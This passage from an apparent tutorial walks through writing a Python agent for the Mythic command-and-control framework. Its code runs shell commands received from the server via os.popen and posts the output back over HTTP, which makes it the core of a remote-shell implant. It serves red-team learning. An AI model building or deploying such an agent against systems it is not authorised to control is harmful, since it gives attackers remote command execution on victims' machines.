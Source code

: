 ```
	if len(responseData) > 0:		# And some error checking because it's good form.  
		res = responseData[0]		# Because we only get one task, we only want to return the first item in the list.  This could be updated later to get all the currently queued tasks, but for simplicity's sake, I am going to leave it with just one.  
		print("RESPONSE" + str(res))
		return res			# Return the one task we got
```

Now that we can get tasks, we should run them!  This is really just parsing with an if/elif/else block.   

```
 def runTask(task):					# Pass it the task
	print(task)
	data = {					# Create the base agent to server message to fill out with data as we go
		"action":"post_response",
		"responses":[{"task_id":task["id"],}],
		}
		
	if task['command'] == "shell":			# If the command is 'shell', get the parameters (from JSON because of course it is) and run the shell() function
		command = json.loads(task['parameters'])
		print(command)
		returnVal = shell(command["command"])
		data["responses"][0]["user_output"] = returnVal  # Set the value of the "user_output" for this task to be the return value from running shell()

	elif task['command'] == "exit":		# Otherwise, it the command is 'exit', guess what we do!  We exit!
		returnVal = "Exited"
		ex()				# Using the exit function
	else:
		returnVal = "Not Implemented"	# Otherwise, just tell the server this function isn't implemented yet.
		data["responses"][0]["user_output"] = returnVal
	
	response = PostRequest(getEncodedJson(data,agent["UUID"]))	# And here's where we do all the standard HTTP stuff
	decodedResponse = base64.b64decode(response)[36:]
	print("Task - Mythic Response: " + str(decodedResponse))
	return True
```
 
The functions (like shell and ex) need to be coded too, so I'm going to do those next.
```
def shell(param):
	cmd = os.popen(param)
	return cmd.read()
	
def ex():
	print("EXITING")
	exit()
```
These are really basic.  Does exit really need it's own function?  Not really, but I am going for as modular/OOP as I can get, so I did anyway.  
